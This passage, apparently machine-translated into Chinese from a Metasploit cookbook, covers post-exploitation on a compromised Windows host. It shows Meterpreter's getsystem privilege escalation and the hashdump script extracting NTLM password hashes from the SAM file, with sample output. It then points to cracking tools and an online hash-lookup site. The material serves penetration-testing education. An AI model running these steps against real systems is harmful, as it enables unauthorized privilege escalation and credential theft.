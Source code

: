 我们将从一个活动的 MeterMeter 会话开始。我假设你已经穿透了目标并获得了一个米计会话。您可以参考[第 4 章](04.html "Chapter 4. Client-side Exploitation and Antivirus Bypass")、*客户端攻击和防病毒绕过*中的配方，了解有关危害 windows 机器的更多详细信息。脚本的使用简单明了。让我们首先检查目标机器上的权限。我们必须拥有系统特权才能提取哈希。我们将使用 `getuid`命令了解我们当前的权限级别。为了提升我们的特权，我们将使用 `getsystem`命令。

```
meterpreter > getuid
Server username: DARKLORD-PC\DARKLORD
meterpreter > getsystem
...got system (via technique 4).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM 
```

## 它是如何工作的。。。

现在我们有了目标的系统权限，所以我们可以继续尝试 hashdump 脚本。

```
meterpreter > run hashdump
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 78e1241e98c23002bc85fd94c146309d...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hashes...
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DARKLORD:1000:aad3b435b51404eeaad3b435b51404ee:3dbde697d71690a769204beb12283678::: 
```

您可以看到脚本已成功地从 SAM 文件中提取密码哈希。现在我们可以使用不同的工具来破解这个散列。一些著名的工具有 John the riper、pwdump、rainbow crack 等。

## 还有更多。。。

让我们看看解密散列的另一种方法，而不是使用前面讨论的工具。

### 在线密码解密

有一个非常流行的网站可以解密 NTLM/LM 哈希[http://www.md5decrypter.co.uk/](http://www.md5decrypter.co.uk/) 。它通过将散列与其庞大的散列数据库进行匹配来查找密码。这是一种有效、快速的破解简单、弱密码的技术。下面的屏幕截图显示了我们之前转储的哈希的解码结果：

![Online password decryption](img/7423_06_01.jpg)
